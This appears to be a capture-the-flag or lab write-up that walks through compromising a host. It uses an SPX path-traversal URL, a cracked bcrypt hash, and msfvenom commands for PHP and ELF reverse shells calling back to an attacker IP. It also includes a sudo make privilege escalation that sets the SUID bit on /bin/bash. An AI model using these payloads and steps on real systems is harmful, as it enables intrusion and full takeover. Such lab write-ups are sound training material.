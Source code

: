 #Pwned! 
```IP
192.168.192.108
```
# Enumeration

## HTTP 80
apache 2.4.52
default credentials **admin/admin, admin/password, admin/admin@123 and user/12345** doesnt work

in /phpinfo.php we find SPX version 0.4.15 
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205115755.png?raw=true)


# Exploitation

we try to exploit SPX path traversal vulnerability
https://www.vicarius.io/vsociety/posts/novel-escape-from-the-spx-jungle-path-traversal-in-php-spx-cve-2024-42007
we get the following error
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205121754.png?raw=true)
reviewing the code we can see that the SPX_KEY parameter is set to 'dev'
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205121835.png?raw=true)

we have another key in the phpinfo.php
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205121918.png?raw=true)
lets edit the script and save it
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205121943.png?raw=true)
Now we get a file
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205122014.png?raw=true)

```
http://192.168.192.108/?SPX_KEY=a2a90ca2f9f0ea04d267b16fb8e63800&SPX_UI_URI=%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fvar%2fwww%2fhtml%2findex.php
```
with this we get the source code

which has some hashes
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205124146.png?raw=true)
```
$2y$10$7LaMUa8an8NrvnQsj5xZ3eDdOejgLyXE8IIvsC.hFy1dg7rPb9cqG
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205131500.png?raw=true)
once cracked, we try ssh to the machine unsuccessfully. We will try to exploit the authenticated rce from the web

```
msfvenom -p php/reverse_php LHOST=192.168.45.204 LPORT=80 -o ../shell.php
```
we upload the latter shell to http://192.168.192.108/index.php?p=&upload
and we execute it
http://192.168.192.108/shell.php
we have now revshell as www data
I created yet another shell for a more stable stty
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.204 LPORT=4444 -f elf > shell.elf
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205133923.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205133936.png?raw=true)


# PrivEsc

## Manual
```
su - profiler
```
lowprofile as password
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205154956.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205155212.png?raw=true)
it executes the following command
```
/bin/sh /root/php-spx/libtool --mode=install cp ./spx.la /root/php-spx/modules
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205155741.png?raw=true)
we change the following line
```
SHELL = /bin/sh
```
for
```
SHELL = /tmp/sh
```


![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205160140.png?raw=true)
then we will create in the /tmp directory an sh file which will contain the following lines:
```
#!/bin/bash
chmod u+s /bin/bash
```
we execute once again our sudo command, which will execute our file /tmp/sh
```
sudo /usr/bin/make install -C /home/profiler/php-spx
```
and with 
```
bash -p
```
we assess that we are root now!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205160549.png?raw=true)

## Automated

### Peass
### Mimikatz

# Lateral Movement

